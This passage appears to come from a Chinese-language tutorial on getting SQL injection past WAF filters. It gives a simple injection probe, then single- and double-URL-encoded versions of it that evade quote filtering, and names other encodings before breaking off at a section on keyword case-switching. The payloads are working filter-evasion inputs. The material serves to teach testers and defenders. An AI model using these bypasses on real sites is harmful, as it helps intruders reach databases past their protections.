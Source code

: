 ```
?id=1' and '1'='2
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgw4Qdk0VqNHedZITgt8SibzXSoswOiaGUg9n0Tf1nibE5mibx2orZXCx2Vibg/640?wx_fmt=jpeg)

直接提交攻击语句，单引号被过滤，注入语句未成功插入。

绕过 payload：

```
?id= %31%2527%20%61%6e%64%20%2527%31%2527%3d%2527%32
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwyLSiaqdxqic5LsgVNCWOKuicn542bUBlibaic9vyDk0ia4fFUWd77x5DQ45A/640?wx_fmt=jpeg)

对参数值进行 URL 编码后可绕过过滤检测，注入语句成功写入。

b)  二次 URL 编码

增加了过滤规则的代码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwT4KEsSgoFv4hhH03L6gT28g3JXuQwUtJgbOq4XTc0lhkVY050YNd9A/640?wx_fmt=jpeg)

代码中在特殊字符过滤前又多增加了一步解码操作，可使用二次 URL 编码进行绕过。

正常 payload：

```
?id=1'and '1'='2?id=%31%2527%20%61%6e%64%20%2527%31%2527%3d%2527%32
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgw3VCfkhBzKERTMYJs252nJAfbCD9kMveIW3clTeB3oTrJXqa69LGNFg/640?wx_fmt=jpeg)

使用一次 URL 编码绕过后，由于在过滤前会进行一次解码操作，所以单引号还是被过滤掉，注入语句未成功插入。

绕过 payload：

```
?id=%25%33%31%25%32%35%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%35%32%37%25%33%31%25%32%35%32%37%25%33%64%25%32%35%32%37%25%33%32
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwQ83zlbMgicnAYIk15YiaHqh1I3gjRwPOZ5pO06KvLEMdxiczJcv8AP5hw/640?wx_fmt=jpeg)

使用二次 URL 编码后可绕过过滤检测，注入语句成功写入。

c)   其他编码

除了使用 URL 编码外，还可以使用其他的编码方式进行绕过尝试，例如 Unicode 编码，Base64 编码，Hex 编码，ASCII 编码等，原理与 URL 编码类似，此处不再重复。

### 2. 字母大小写转换绕过

部分 WAF 只过滤全大写 (SLEEP) 或者全小写 (sleep) 的敏感字符，未对 sleeP/slEEp 进行过滤，可对关键字进行大小写转换进行绕过。

增加了过滤规则的代码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwSQ6ibTQt1N5lYp7OQWVHibWWicu8fgqlYib7RKTic1iciaDWBc91xMJcZ5Ebg/640?wx_fmt=jpeg)

正常 payload：
